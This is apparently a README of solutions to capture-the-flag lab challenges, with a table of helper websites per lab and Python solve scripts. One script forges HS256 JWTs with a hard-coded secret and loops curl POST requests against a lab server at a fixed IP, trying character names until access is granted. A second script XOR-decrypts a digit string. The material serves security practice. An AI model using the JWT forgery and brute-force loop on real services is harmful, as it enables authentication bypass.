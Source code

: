 
# Documentatie
> - `Site-uri`
> - `Script-uri`

| Labs                                         | Site          |
|-----------------------------------------------|----------------------------|
|     Bank_account      |-|
|      Binary     |https://toolbox.itsec.tamu.edu/|
|       Cool_Dude    |https://www.dcode.fr/|
|     Double_Oh_No      |https://en.wikipedia.org/wiki/MI6     |
|      Labyrinth     |-|
|     PING      |-|
|      Shattered     |-|
|      Sudoku     | https://sudokuspoiler.com/sudoku/sudoku9  // https://www.dcode.fr/|
|     Tolkien Black      |-|
|Friend| https://crackstation.net/|


## __Script-uri__

# Script Tolkien
```
import jwt

payload = {
    "character": "admin",
    "tegridy": "weed"
}
secret = "chinpokomon"

token = jwt.encode(payload, secret, algorithm="HS256")

print(token)**
```
----
```
import jwt
import subprocess

Target info
URL = "http://141.85.224.116:8903/tolkien-black"
SECRET = "chinpokomon"

Characters to test
characters = [
    "randy", "Randy", "randy_marsh", "Randy Marsh", "cartman", "stan", "kyle",
    "butters", "kenny", "towelie", "chef", "ike", "garrison", "tolkien",
    "gerald", "sharon", "jimmy", "timmy", "barbrady", "mr. mackey", "pc principal"
]

Error phrases we want to skip
bad_responses = [
    "Wrong secret!",
    "Did you forget something?",
    "Hey, hey, where's your tegridy?",
    "Which South Park character are you?"
]

for character in characters:
    payload = {
        "character": character,
        "tegridy": "weed"
    }

    token = jwt.encode(payload, SECRET, algorithm="HS256")
    if isinstance(token, bytes):
        token = token.decode()

    print(f"[*] Trying: {character}...")

    # Build the curl command
    curl_command = [
        "curl", "-s", "-X", "POST", URL,
        "-H", f"Cookie: jwt={token}"
    ]

    # Run the command
    result = subprocess.run(curl_command, capture_output=True, text=True)
    response = result.stdout.strip()

    # Print response and stop if it's not a known error
    if not any(err in response for err in bad_responses):
        print(f"\n Success with character: {character}")
        print(" Server Response:\n")
        print(response)
        break
```
# Script Sudoku  
```
def xor_decrypt(ciphertext, key):
    key_bytes = [ord(c) for c in key]
    key_len = len(key_bytes)

    def split_by_n(text, n):
        return [text[i:i+n] for i in range(0, len(text), n)]

    try:
        bytes_2digit = [int(b) for b in split_by_n(ciphertext, 2)]
    except ValueError:
        bytes_2digit = []

    bytes_3digit = []
    if len(ciphertext) % 3 == 0:
        try:
            bytes_3digit = [int(b) for b in split_by_n(ciphertext, 3)]
        except ValueError:
            bytes_3digit = []

    def xor_bytes(byte_list):
        result_chars = []
        for i, b in enumerate(byte_list):
            key_byte = key_bytes[i % key_len]
            decrypted = b ^ key_byte
            if decrypted < 32 or decrypted > 126:
                return None
            result_chars.append(chr(decrypted))
        return ''.join(result_chars)

    decrypted_2 = None
    if bytes_2digit:
        decrypted_2 = xor_bytes(bytes_2digit)

    decrypted_3 = None
    if bytes_3digit:
        decrypted_3 = xor_bytes(bytes_3digit)

    return decrypted_2, decrypted_3

ciphertext = "279831654961745923435269871983172465714586392652493187198327546547618239326954718"
key = "God"

decrypted_2, decrypted_3 = xor_decrypt(ciphertext, key)

print("Decrypted assuming 2-digit bytes:", decrypted_2)
print("Decrypted assuming 3-digit bytes:", decrypted_3)
```

